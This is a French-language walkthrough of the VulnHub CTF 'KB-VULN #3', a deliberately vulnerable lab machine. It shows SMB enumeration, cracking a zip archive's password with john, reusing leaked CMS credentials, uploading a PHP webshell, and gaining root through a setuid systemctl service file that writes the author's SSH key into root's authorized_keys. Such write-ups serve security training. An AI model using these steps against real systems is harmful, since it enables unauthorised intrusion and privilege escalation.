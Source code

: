 ```yaml
---
title: Solution du CTF KB-VULN #3 de VulnHub
tags: [CTF, VulnHub]
---
```


Kyoto Frift
-----------

Ça manque un peu d'originalité mais comme le précédent on va partir sur du Samba :  

```
Nmap scan report for 192.168.56.7
Host is up (0.00017s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cb:04:f0:36:3f:42:f7:3a:ce:2f:f5:4c:e0:ab:fe:17 (RSA)
|   256 61:06:df:25:d5:e1:e3:47:fe:13:94:fd:74:0c:85:00 (ECDSA)
|_  256 50:89:b6:b4:3a:0b:6e:63:12:10:40:e2:c4:f9:35:33 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 08:00:27:CA:64:3B (Oracle VirtualBox virtual NIC)
Service Info: Host: KB-SERVER; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2021-12-07T21:14:52
|_  start_date: N/A
|_nbstat: NetBIOS name: KB-SERVER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: kb-server
|   NetBIOS computer name: KB-SERVER\x00
|   Domain name: \x00
|   FQDN: kb-server
|_  System time: 2021-12-07T21:14:52+00:00
```

Hack-Me ? Oui oui !  

```bash
$ smbclient -U "" -N -L //192.168.56.7

        Sharename       Type      Comment
        ---------       ----      -------
        Files           Disk      HACK ME
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
SMB1 disabled -- no workgroup available

$  smbclient -U "" -N //192.168.56.7/Files
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Oct  2 20:11:49 2020
  ..                                  D        0  Fri Oct  2 19:12:00 2020
  website.zip                         N 38936127  Fri Oct  2 20:11:41 2020

                14380040 blocks of size 1024. 9540188 blocks available
```

Quand on tente de décompresser le zip ce dernier réclame un mot de passe. On a recours à l'utilitaire *zip2john* qui génère un hash aussi long qu'une *Chevrolet Bel Air*. Je vous fait grâce de cet output.  

Ça se casse bien :  

```
$ ./john --wordlist=rockyou.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
porchman         (website.zip)     
1g 0:00:00:02 DONE (2021-12-07 22:19) 0.3861g/s 1764Kp/s 1764Kc/s 1764KC/s porno:O..popchie91
```

L'archive semble être une backup de l'install du CMS [Sitemagic](https://sitemagic.org/). On trouve ainsi des identifiants dans le fichier *config.xml.php* :  

```php
<?php exit(); ?>                                                                                                       
<?xml version="1.0" encoding="ISO-8859-1"?>                                                                            
<entries>                                                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Username" value="admin"/>                                                                              
<!-- REQUIRED, throws custom exception if missing -->                                                                  
    <entry key="Password" value="jesse"/>
```

On a aussi un numéro de version dans *metadata.xml* :  

```html
<entry key="Release" value="4.4.2" />
```

Il existe un exploit d'upload pour cette version [sur exploit-db](https://www.exploit-db.com/exploits/48788). L'exploit nécessite une authentification préalable et ça tombe bien on a des identifiants.  

L'intuition m'amène sur *http://192.168.56.7/sitemagic/* et les identifiants passent.  

Pas besoin d'exploit pour cette vulnérabilité : on trouve facilement dans l'interface la fonctionnalité d'upload et elle ne dispose d'aucune restriction sur le type de fichier.  

Par défaut les fichiers sont placés dans le dossier *images* donc mon webshell se retrouve à *http://192.168.56.7/sitemagic/files/images/shell.php*.  

Dokyo Trift
-----------

Un utilisateur heisenberg est présent sur le système. Il possède notamment le premier flag (*6346c6d19751f1a3195f1e4b4b609544*) :  

```
drwxr-xr-x 4 heisenberg heisenberg 4096 Oct  2  2020 .
drwxr-xr-x 3 root       root       4096 Oct  2  2020 ..
-rw-r--r-- 1 heisenberg heisenberg  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 heisenberg heisenberg 3771 Apr  4  2018 .bashrc
drwx------ 2 heisenberg heisenberg 4096 Oct  2  2020 .cache
drwx------ 3 heisenberg heisenberg 4096 Oct  2  2020 .gnupg
-rw-r--r-- 1 heisenberg heisenberg  807 Apr  4  2018 .profile
-rw-r--r-- 1 heisenberg heisenberg    0 Oct  2  2020 .sudo_as_admin_successful
-rw-r--r-- 1 root       root         33 Oct  2  2020 user.txt
```

Cette fois pas d'environnement Docker. *LinPEAS* remonte la faille sudo que j'ai mentionné sur d'autres CTFs :  

```
[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
```

Mais le CTF est un peu ancien donc l'escalade de privilèges attendue n'est certainement pas liée à cet exploit.  

En revanche le programme */bin/systemctl* est setuid et setgid root. Il existe une entrée pour ce programme [sur GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) mais elle se base sur un fichier placé dans */tmp* alors que systemctl montre une certaine aversion avec ce dossier (voir par exemple [ici](https://ivanitlearning.wordpress.com/2020/10/14/hackthebox-jarvis/)).  

Je me suis mis sous la racine web où j'avais un accès en écriture et commencé par un petit test :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ cat yolo.service 
[Unit]
Description=root

[Service]
Type=oneshot
ExecStart=/usr/bin/touch  /var/www/html/sitemagic/hi_there.txt

[Install]
WantedBy=multi-user.target

www-data@kb-server:/var/www/html/sitemagic$ systemctl link /var/www/html/sitemagic/yolo.service 
Created symlink /etc/systemd/system/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl enable --now yolo.service
Created symlink /etc/systemd/system/multi-user.target.wants/yolo.service → /var/www/html/sitemagic/yolo.service.

www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service

www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:14:54 UTC; 1min 23s ago
  Process: 8900 ExecStart=/usr/bin/touch /var/www/html/sitemagic/hi_there.txt (code=exited, status=0/SUCCESS)
 Main PID: 8900 (code=exited, status=0/SUCCESS)

Dec 08 08:14:54 kb-server systemd[1]: Starting root...
Dec 08 08:14:54 kb-server systemd[1]: Started root.

www-data@kb-server:/var/www/html/sitemagic$ ls -l hi_there.txt 
-rw-r--r-- 1 root root 0 Dec  8 09:14 hi_there.txt
```

J'obtiens bien mon fichier créé par *root* :)  

Je modifie le service pour que la commande copie ma clé publique SSH sur */root/.ssh/authorized\_keys* et je relance. Systemctl voit une modification et demande un rechargement :  

```bash
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
Warning: The unit file, source configuration file or drop-ins of yolo.service changed on disk. Run 'systemctl daemon-reload' to reload units.

www-data@kb-server:/var/www/html/sitemagic$ systemctl daemon-reload
www-data@kb-server:/var/www/html/sitemagic$ systemctl start yolo.service
www-data@kb-server:/var/www/html/sitemagic$ systemctl status yolo.service
● yolo.service - root
   Loaded: loaded (/var/www/html/sitemagic/yolo.service; enabled; vendor preset: enabled)
   Active: inactive (dead) since Wed 2021-12-08 08:22:05 UTC; 4s ago
  Process: 16351 ExecStart=/bin/cp /var/www/html/sitemagic/my_key.pub /root/.ssh/authorized_keys (code=exited, status=0/SUCCESS)
 Main PID: 16351 (code=exited, status=0/SUCCESS)

Dec 08 08:22:05 kb-server systemd[1]: Starting root...
Dec 08 08:22:05 kb-server systemd[1]: Started root.

root@kb-server:~# cat root.txt 

  ####   ####  #    #  ####  #####    ##   ##### #    # #        ##   ##### #  ####  #    #  ####     
 #    # #    # ##   # #    # #    #  #  #    #   #    # #       #  #    #   # #    # ##   # #        
 #      #    # # #  # #      #    # #    #   #   #    # #      #    #   #   # #    # # #  #  ####     
 #      #    # #  # # #  ### #####  ######   #   #    # #      ######   #   # #    # #  # #      #    
 #    # #    # #   ## #    # #   #  #    #   #   #    # #      #    #   #   # #    # #   ## #    #    
  ####   ####  #    #  ####  #    # #    #   #    ####  ###### #    #   #   #  ####  #    #  #### 

                                            kernelblog.org    

49360ba4cbe27a1b900df25b247315d7
```


*Published December 08 2021 at 12:10*
